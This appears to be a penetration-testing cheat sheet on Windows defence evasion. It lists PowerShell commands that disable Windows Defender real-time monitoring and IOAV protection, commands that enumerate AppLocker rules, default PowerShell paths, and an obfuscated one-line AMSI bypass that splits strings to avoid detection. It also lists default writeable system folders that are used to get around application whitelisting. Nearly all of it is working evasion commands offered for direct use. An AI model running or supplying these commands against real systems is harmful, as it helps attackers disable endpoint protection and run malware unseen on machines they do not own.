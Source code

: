 # Antivirus & Detections
### Windows Defender
- check status of Defender

`PS C:\> Get-MpComputerStatus`

- disable Real Time Monitoring

`PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus`

`PS C:\> Set-MpPreference -DisableIOAVProtection $true`

### AppLocker Enumeration
-	With the GPO
-	HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2 (Keys: Appx, Dll, Exe, Msi and Script).
### List AppLocker rules

`PS C:\> $a = Get-ApplockerPolicy -effective`

`PS C:\> $a.rulecollections`

### Powershell
- Default powershell locations in a Windows system.

`C:\windows\syswow64\windowspowershell\v1.0\powershell`

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell`

### Example of AMSI Bypass.
```
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

### Default Writeable Folders
```C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing```
